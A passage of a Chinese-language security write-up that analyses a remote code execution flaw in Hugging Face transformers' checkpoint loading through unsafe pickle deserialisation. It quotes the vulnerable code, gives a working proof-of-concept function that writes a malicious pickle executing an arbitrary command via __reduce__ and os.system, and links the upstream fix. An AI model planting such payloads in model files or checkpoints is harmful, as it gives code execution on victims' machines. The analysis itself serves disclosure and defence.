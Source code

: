 然后到重点了，紧接着加载了模型的权重文件，这里加载权重文件不正确的话就会抛出异常，走不到下一步，所以这就是为什么我们一定要生成正确的权重文件（针对权重文件的投毒后续会再出一片文章展开解释）：

```python
        # Assuming the repo is real and we got a checkpoint, load the weights and the optimizer state into the model.
        # The optimizer state includes the iteration count, so learning rate schedules should resume as normal too.
        self.load_weights(weights_file)
```

再然后，开始读取`extra_data.pickle`反序列化，就来到了我们熟悉的`pickle.load(f)`环节，在这一步，产生了RCE：

```python

        with open(extra_data_file, "rb") as f:
            extra_data = pickle.load(f)
        self.optimizer.set_weights(extra_data["optimizer_state"])

        # Finally, return the epoch number from the checkpoint. This isn't a property of the model, so we can't
        # set it directly, but the user can pass it to fit().
        return {"epoch": extra_data["epoch"]}
```

让我们来看一下这个``extra_data.pickle``文件是如何生成的，这里定义了一个类，然后为这个类创建了一个对象并`dump`到了硬盘上，在这个类上有一个特殊的`__reduce__`方法，在pickle的规范约定中，反序列化时会调用类上的`__reduce__`方法，所以就RCE：
```python
def generate_extra_data_pickle(filepath, command):
    """
    生成extra_data.pickle文件，这个文件被加载的时候会执行给定的命令
    :param filepath: extra_data.pickle文件的位置
    :param command: 要执行的命令
    :return:
    """

    class CommandExecute:
        def __reduce__(self):
            """
            在 pickle.load(f) 的时候，此处的命令会被执行
            :return:
            """
            return os.system, (command,)

    poc = CommandExecute()
    with open(filepath, 'wb') as fp:
        pickle.dump(poc, fp)
```

官方的修复似乎是把这个方法删除掉了？草没看明白...

```
https://github.com/huggingface/transformers/commit/693667b8ac8138b83f8adb6522ddaf42fa07c125
```

# 四、影响范围 & 防御措施
